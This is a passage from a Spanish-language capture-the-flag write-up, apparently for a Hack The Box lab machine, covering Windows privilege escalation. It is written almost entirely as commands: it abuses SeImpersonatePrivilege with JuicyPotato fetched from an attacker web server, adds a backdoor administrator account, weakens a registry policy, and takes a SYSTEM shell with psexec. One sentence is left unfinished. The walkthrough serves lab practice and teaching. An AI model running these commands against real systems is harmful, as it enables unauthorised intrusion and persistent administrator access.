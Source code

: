 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
systeminfo
whoami /priv
```

Aqui vemos que tenemos el `SeImpersonatePrivilege` ;)

Tiramos como siempre de JuicyPotatoe.exe

Lo descargamos en la maquina de atacante y lo enviamos a la victima.

```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
cp /usr/share/sqlninja/apps/nc.exe
python3 -m http.server 80
```

En la maquina victima lo descargamos

```bash
cd C:\Windows\Temp
mkdir privesc
cd privesc
iwr -uri http://10.10.14.7/JuicyPotato.exe -OutFile JuicyPotato.exe
```

Nos creamos un nuevo usuario con el JuicyPotato.

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user s4vitar s4vitar1234$! /add"
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators s4vitar /add"
```

Si comprobamos con el commando `crackmapexec smb 10.10.10.59 -u 's4vitar' -p 's4vitar1234$!'` Vemos que el usuario no esta pwned.
Aqui tenemos que 

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL"
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
```

Si comprobamos otra vez con crackmapexec, vemos ahora que el usuario s4vitar esta pwned.
Ya nos podemos connectar con psexec

```bash
impacket-psexec WORKGROUP/s4vitar@10.10.10.59 cmd.exe
Password: s4vitar1234$!

whoami

#Output
nt authority\system

cd C:\Users\Adminstrator\Desktop
dir
type hm.txt
```

Aqui nos dice que la flag no esta aqui. Pensamos a Alternative Data Streams.

```bash
dir /r
more < hm.txt:root.txt
```

;)